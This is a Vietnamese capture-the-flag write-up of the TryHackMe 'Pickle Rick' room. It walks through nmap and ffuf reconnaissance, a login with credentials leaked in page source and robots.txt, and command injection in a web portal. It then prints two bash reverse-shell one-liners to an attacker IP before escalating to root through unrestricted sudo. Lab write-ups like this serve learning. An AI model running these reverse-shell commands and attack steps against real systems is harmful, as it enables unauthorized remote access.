

# [THM] Pickle Rick write-up

- IP: 10.10.226.237

## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -sT -sV -sC -T4 10.10.226.237

<p align="center">
  
</p>

Có 2 port dịch vụ đang mở bao gồm
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP 

Truy cập với port 80 xem có giao diện như bên dưới


Source code của giao diện trên đã thấy điều khả nghi đó là username 


Tiếp tục scan thư mục ẩn với công cụ ffuf để xem có gì khai thác được với username bên trên không

> ffuf -u "http://10.10.226.237/FUZZ" -w /usr/share/seclists/Discovery/Web-Content/big.txt -e .php,.phtml,.txt

<p align="center">
  
</p>

Nhận thấy có tệp `robots.txt`,`denied.php `,`login.php`, `portal.php` và thư mục `/assets` là thư mục ẩn, truy cập các tệp và thư mục đó xem sao

`robots.txt` có điều đặc biệt có thể là mật khẩu của user trên chăng?

<p align="center">
  
</p>

## Exploit
Tiếp đến ta sẽ truy cập tới `/login.php` 
<p align="center">
    
</p>

Sau khi truy cập thì hiển thị ra giao diện bên dưới, sử dụng những thông tin đã thu thập được ta sẽ đăng nhập. Đăng nhập thành công đã được redirect sang `/portal.php`
<p align="center">
    
</p>

Có vẻ như input này nhập được command và thực thi được 1 số câu lệnh, thử nhập một số câu lệnh như `ls`, `whoami` đã nhận được kết quả như hình bên dưới
<p align="center">
    
</p>
<p align="center">
    
</p>

Nhưng có chút vấn đề là khi ta muốn `cat` một số file trong đây thì đều không được
<p align="center">
    
</p>

Vậy thì ta sẽ thử kiểm tra xem trên server có khả dụng với `bash` không với câu lệnh `which bash`
<p align="center">
    
</p>

Thật tuyệt khi trên server khả dụng đối với câu lệnh bash, ta sẽ nghĩ ngay tới `reverse shell` để khai thác. Ta sẽ tạo reverse shell trên [revshells.com](https://www.revshells.com/)

<p align="center">
    
</p>

Tạo **Netcad listener** trên máy attacker lắng nghe port 1234 và nhập reverse shell vào ô input
```sh
bash -i >& /dev/tcp/10.21.113.26/1234 0>&1
```
Nhưng sau khi chạy câu lệnh trên ta vẫn không nhận được shell vậy thì ta sẽ thử đặt nó trong 1 **subshell** xem có thành công hay không
```sh
bash -c 'bash -i >& /dev/tcp/10.21.113.26/1234 0>&1'
```

Ta đã nhận được user shell sau khi chạy câu lệnh trên
<p align="center">
    
</p>

## First ingredient
Sau khi chiếm được user shell ta đã tìm kiếm được file `Sup3rS3cretPickl3Ingred.txt` chứa nguyên liệu đầu tiên mà Rick cần, và file `clue.txt` đã cho ta thông tin để tìm kiếm các file khác trong hệ thống để tìm được những nguyên liệu tiếp theo
<p align="center">
    
</p>

## Second ingredient
Tìm kiếm và nhận ra nguyên liệu thứ 2 nằm trong file `/home/rick/second ingredients`
<p align="center">
    
</p>

## Privilege escalation
Sau một hồi tìm kiếm khả năng cao là sẽ cần leo thang đặc quyền để có thể truy cập vào thư mục `root`. Kiểm tra xem user hiện tại có tác vụ nào chạy với quyền root không ta sử dụng câu lệnh `sudo -l`
<p align="center">
    
</p>

Tuyệt vời user hiện tại có quyền chạy bất kì tác vụ nào với quyền `root`

## Last ingredient
Không nằm ngoài dự đoán nguyên liệu cuối cùng đã được tìm thấy trong thư mục `/root`
<p align="center">
    
</p>


DONE


